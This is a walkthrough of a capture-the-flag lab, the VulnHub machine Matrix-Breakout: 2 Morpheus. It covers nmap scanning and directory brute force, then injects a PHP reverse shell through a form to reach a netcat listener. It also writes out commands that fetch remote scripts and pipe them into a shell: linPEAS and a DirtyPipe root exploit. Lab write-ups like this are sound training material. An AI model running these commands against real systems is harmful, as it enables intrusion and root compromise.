







# Matrix-Breakout: 2 Morpheus

**Complete solution with documentation in Spanish and English**

This is the second machine in the Matrix-Breakout series, subtitled Morpheus:1. It's themed as a throwback to the first Matrix movie. You play as Trinity, trying to investigate a computer on the Nebuchadnezzar that Cypher has locked everyone else out from, which holds the key to a mystery.

**Difficulty**: Medium-Hard

**Machine Link**: [VulnHub - Matrix-Breakout: 2 Morpheus](https://www.vulnhub.com/entry/matrix-breakout-2-morpheus,757/)

---

## 1. Initial Configuration

### 1.1 Import the Machines

We will start by importing both machines and configuring them on the same virtual network.



### 1.2 Target IP Identification

With the machines up and running, we will start with an initial scan to identify the target IP address. We will use `arp-scan`:

```bash
sudo arp-scan -l
```



### 1.3 Connectivity Verification

With this information, we will verify that the machine is active by pinging the IP:

```bash
ping 192.168.116.129
```



---

## 2. Port Scanning

### 2.1 Initial Nmap Scan

Now we can start working with nmap to see what services are open on the machine, that is, begin the port scanning phase.

```bash
nmap --open -vv -T5 -p- 192.168.116.129
```


### 2.2 Detailed Service Scan

Now we can perform another nmap scan on the open ports to find access points and service versions:

```bash
nmap -sC -sV -p 22,80,81 192.168.116.129
```


**Scan Results:**
- Port 22: SSH
- Port 80: HTTP
- Port 81: HTTP

---

## 3. Web Enumeration

### 3.1 Port 80 Exploration

We can observe that port 80 is open and it's a web server, so let's test it:


And with this, our infiltration game begins.

### 3.2 Source Code Analysis

We will start with a scan of the source code of this web page:



### 3.3 robots.txt Review

We will also review the enumeration file (stored by default in robots.txt):


In this case, we see that robots.txt is properly configured and gives us a security message.

### 3.4 Directory Brute Force

We've hit a dead end, but when things get tough, we use desperate measures - let's use brute force to find more exposed directories on port 80.

For this, we will use our dirBuster tool and its included wordlists:


We will start it and wait for it to finish searching for directories:


**Result**: We found a directory called `graffiti.php` that also gives us access with a 200 code. Let's review it:


### 3.5 graffiti.php Analysis

Each message we write in the message box is reviewed by the server and placed in a list that appears on screen:


---

## 4. Exploitation

### 4.1 Vulnerability Identification

We already have a possible SQL injection vulnerability or a PHP injection reversal. But to verify that what we suspect is true, we will use Burp Suite, which is very similar to Wireshark but more focused on a single target.


As we can observe, all data is saved in a txt file that will be processed by PHP:


### 4.2 Reverse Shell Preparation

What can we do with this? PHP reverse shell. A simple version can be found in this repository:

**Repository**: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

### 4.3 Reverse Shell Injection

We will use Burp Suite to send this reverse shell as a request in the message and set the file as php instead of txt so the server processes it. We will modify the IP and port to connect to our machine. We will use port 9999 because we know it won't be used.

**⚠️ Warning**: Be very careful in this step as an error can destroy the machine we are attacking, as happened to me on one occasion, which is why you will see a different IP address for the Morpheus machine (192.168.116.130).


### 4.4 Listener Setup

Subsequently, we will set up netcat to listen on port 9999 and connect to our machine:

```bash
nc -lnvp 9999
```

When we make any other request, we will receive this:


And as we can observe, we're in:


### 4.5 First Flag Obtained

And with this, we obtain our first flag:




---

## 5. Privilege Escalation

### 5.1 LinPEAS Execution

Now we will need to escalate privileges to obtain the second flag. How will we do it? Easy, we will use another script that allows us to escalate privileges called linPEAS (Linux Privilege Escalation Awesome Script).

**Repository**: https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

We will execute it directly on the machine with this command:

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```


### 5.2 Results Analysis

This script will give us a lot of useful information, but we will focus on the open or unpatched exploits that the machine has:


### 5.3 DirtyPipe Exploitation (CVE-2022-0847)

From all of them, we found direct repositories that allow us to exploit the following:

**[CVE-2022–0847] DirtyPipe**

To execute it, we will do the following in the hacked machine's console:

```bash
cd /var/www/html
wget https://raw.githubusercontent.com/r1is/CVE-2022-0847/main/Dirty-Pipe.sh
chmod +x Dirty-Pipe.sh
bash Dirty-Pipe.sh
```



### 5.4 Root Access Verification

We verify by entering /root:



### 5.5 Second Flag Obtained

And we obtain the second and final flag:


---

## Summary

This machine has allowed us to practice:

1. **Network and port scanning** with `arp-scan` and `nmap`
2. **Web enumeration** with source code analysis and directory brute force
3. **Vulnerability exploitation** through PHP reverse shell injection
4. **Privilege escalation** using linPEAS and the DirtyPipe exploit (CVE-2022-0847)

---

## References

- **Original Article**: [Matrix Breakout 2 Morpheus - Medium](https://medium.com/@mithunachary21/matrix-breakout-2-morpheus-6c9f4b73318d)
- **PHP Reverse Shell**: https://github.com/pentestmonkey/php-reverse-shell
- **LinPEAS**: https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS
- **DirtyPipe Exploit**: https://raw.githubusercontent.com/r1is/CVE-2022-0847/main/Dirty-Pipe.sh
- **CVE-2022-0847**: https://dirtypipe.cm4all.com/

---

## Final Notes

- Make sure to have the machines on the same virtual network
- Be careful when modifying parameters in Burp Suite to avoid damaging the target machine
- Privilege escalation steps may vary depending on the specific machine configuration

